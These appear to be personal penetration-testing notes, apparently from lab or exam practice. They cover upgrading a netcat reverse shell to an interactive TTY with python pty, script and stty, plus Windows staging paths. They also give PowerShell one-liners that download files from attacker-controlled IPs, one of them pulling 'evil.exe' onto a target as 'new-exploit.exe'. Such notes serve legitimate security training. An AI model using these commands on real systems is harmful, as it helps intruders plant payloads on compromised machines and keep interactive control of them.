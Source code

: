 # Common
rdesktop -r disk:share=/ <ip> -u username -p <password>
   

## Interactive Shells

Upgrade to Interactive Shells  
python -c 'import pty; pty.spawn("/bin/sh")'  
export TERM=linux
 
/usr/bin/script -qc /bin/bash /dev/null  
export TERM=linux
   

Upgrade rows / cols in interactive shell  
stty rows 200 cols 200
 > From <[https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2)>     

# Interactive shell for nano, etc
 
When obtaining a reverse shell with a Netcat listener, it is by default non-interactive and you cannot pass keyboard shortcuts or special characters such as tab.
 
It is quite simple to work around. For starters, in your shell, run python -c 'import pty;pty.spawn("/bin/bash");' to obtain a partially interactive bash shell.
 
After that, do CTRL+Z to background Netcat. Enter stty raw -echo in your terminal, which will tell your terminal to pass keyboard shortcuts etc. through. Once that is done, run the command fg to bring Netcat back to the foreground. Note you will not be able to see what you are typing in terminal after you change your stty setting. You should now have tab autocomplete as well as be able to use interactive commands such as su and nano.
 
[https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

## ##Windows

Upload to public if we have very limited command execution and don’t know the directory structure  
C:/Users/Public
 
## PowerShell

Happy Path  
powershell wget [http://192.168.119.177/file.txt](http://192.168.119.177/file.txt) -o file.txt  
powershell curl [http://192.168.119.177/file.txt](http://192.168.119.177/file.txt) -o file.txt  
(Note use Curl with the -OutFile file.txt flag for older Powershell)
 
Download URL  
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
 